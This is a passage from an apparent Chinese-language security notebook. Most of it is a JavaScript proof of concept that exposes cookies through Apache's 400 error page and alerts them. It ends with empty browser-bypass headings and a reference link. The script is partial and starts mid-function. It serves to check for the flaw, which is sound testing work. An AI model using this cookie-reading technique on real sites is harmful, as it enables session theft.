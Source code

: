 		        // Only react on 400 status  
		        if (xhr.readyState === 4 && xhr.status === 400) {  
		            // Replace newlines and match <pre> content  
		            var content = xhr.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);  
		            if (content.length) {  
		                // Remove Cookie: prefix  
		                content = content[1].replace("Cookie: ", "");  
		                var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);  
		                // Add cookies to object  
		                for (var i=0; i<cookies.length; i++) {  
		                    var s_c = cookies[i].split('=',2);  
		                    cookie_dict[s_c[0]] = s_c[1];  
		                }  
		            }  
		            // Unset malicious cookies  
		            setCookies(true);  
		            alert(JSON.stringify(cookie_dict));  
		        }  
		    }  
		    // Make XHR request  
		    var xhr = new XMLHttpRequest();  
		    xhr.onreadystatechange = parseCookies;  
		    xhr.open("GET", "/", true);  
		    xhr.send(null);  
		}  
		makeRequest();

	在存在漏洞Apache版本中运行，如果弹出来cookie就证明有漏洞。

#浏览器bypass
---
##IE
##chrome
##firefox
##safari

#参考链接
<http://www.myhack58.com/Article/html/3/7/2014/42356_2.htm>
